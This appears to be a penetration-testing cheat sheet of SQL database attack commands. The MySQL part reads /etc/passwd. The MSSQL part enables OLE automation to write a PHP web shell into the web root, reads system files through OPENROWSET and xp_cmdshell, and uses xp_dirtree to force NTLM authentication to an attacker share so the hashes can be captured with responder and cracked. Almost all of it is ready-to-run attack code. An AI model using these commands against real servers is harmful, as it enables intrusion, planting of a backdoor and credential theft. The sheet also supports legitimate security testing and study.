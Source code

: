 - Enable Ole Automation Procedures
```
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
```

- Read files
```
select LOAD_FILE("/etc/passwd");
```

##### MSSQL 
- Commands
  - sqlcmd
```
master:             info about instance
msdb:               for SQL server agent
model:              template
resource:           read-only db
tempdb:             temporary files
```

- [Queries](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

- Create file
```
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

- Read files
```
# Bulk load
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents

# Exec statemente + linked server
EXECUTE("xp_cmdshell 'type C:\path\to\file'") AT [LOCAL.TEST.LINKED.SRV]
```

- Grab hash
```
# Start responder
responder | smbserver share ./ -smb2support

# xp_subdirs/xp_dirtree
EXEC master..xp_dirtree '\\$ATTACKER\share\'
EXEC master..xp_subdirs '\\$ATTACKER\share\'
hashcat 5600 (NTLMv2)
```
